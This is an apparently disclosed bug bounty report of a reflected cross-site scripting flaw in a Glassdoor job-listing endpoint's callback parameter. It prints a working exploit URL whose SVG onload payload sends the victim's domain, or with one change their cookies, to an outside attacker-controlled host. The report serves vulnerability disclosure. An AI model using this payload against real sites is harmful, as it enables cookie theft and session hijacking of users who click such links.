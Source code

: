 # Reflected XSS on https://www.glassdoor.com/job-listing/spotlight

## Report Details
- **Report ID**: 1265390
- **URL**: https://hackerone.com/reports/1265390
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-07-16T13:21:48.877Z
- **Disclosed**: 2021-08-19T15:14:26.186Z

## Reporter
- **Username**: vestige23
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: glassdoor

## Vulnerability Information
**Summary:** 
The application is vulnerable to reflected cross-site scripting attacks on the /job-listing/spotlight URI in the callback parameter.

Affected URL or select Asset from In-Scope:
https://www.glassdoor.com/job-listing/spotlight

Affected Parameter:
callback

Vulnerability Type: (see list below)
XSS

Browsers tested:
Firefox

## Steps To Reproduce:

  1. A malicious SVG HTML attribute is inserted into the callback parameter and the value is URL-encoded:
```
    https://www.glassdoor.com/job-listing/spotlight?slots=spotlight-mrec-lf-display&gdBaseUrl=first%2D%2D%3E&adOrderIds=second&callback=%3C%21%44%4F%43%54%59%50%45%20%68%74%6D%6C%3E%3C%68%74%6D%6C%3E%3C%73%76%67%2F%6F%6E%6C%6F%61%64%3D%6C%6F%63%61%74%69%6F%6E%2F%2A%2A%2F%3D%27%68%74%74%70%73%3A%2F%2F%63%33%72%71%6D%77%6B%79%65%64%66%30%30%30%30%72%33%6D%72%30%67%62%68%6D%34%73%63%79%79%79%79%79%62%2E%69%6E%74%65%72%61%63%74%2E%73%68%2F%27%2B%64%6F%63%75%6D%65%6E%74%2E%64%6F%6D%61%69%6E%3E%3C%2F%68%74%6D%6C%3E%3C%21%2D%2D
```
  2. The above malicious link is URL-decoded (Burp's Hackvector tags are used to show where URL encoding occurs)
```
https://www.glassdoor.com/job-listing/spotlight?slots=spotlight-mrec-lf-display&gdBaseUrl=first<@urlencode_all>--><@/urlencode_all>&adOrderIds=second&callback=<@urlencode_all><!DOCTYPE html><html><svg/onload=location/**/='https://c3rqmwkyedf0000r3mr0gbhm4scyyyyyb.interact.sh/'+document.domain></html><!--<@/urlencode_all>
```
3. When a victim user clicks the malicious link a web request is made to an attacker-controlled domain with a URI request of "document.cookie" which is "www.glassdoor.com".

## Supporting Material/References (screenshots, logs, videos):
* The attacker's HTML content in the callback parameter is written to the page source.

{F1379067}
* When a victim user clicks the malicious link, a web request is made to the attacker controlled domain with a URI of www.glassdoor.com.

{F1379066}
* The request in image 2 has a referer header of the malicious Glassdoor link, indicating the SVG content generated the web request.

{F1379068}
* In addition, non-HTTPonly cookies can be exfiltrated via this technique. the 'document.domain' payload is modified to document.cookie. 

{F1379079}
* A victim user's cookies are visible in the URI of the resulting web request.

{F1379086}

##Impact Description:
Potential Impact:
An XSS attack allows an attacker to execute arbitrary JavaScript in the context of the attacked website and the attacked user. This can be abused to steal session cookies, perform requests in the name of the victim or for phishing attacks.

Details of exploitation scenarios:
* The malicious link could be distributed via phishing or social media to victim users.

## Impact

A XSS attack allows an attacker to execute arbitrary JavaScript in the context of the attacked website and the attacked user. This can be abused to steal session cookies, perform requests in the name of the victim or for phishing attacks.

## Attachments
- glassdoor2.png
- glassdoor1.png
- glassdoor3.png
- glassdoor4.png
- glassdoor5.png
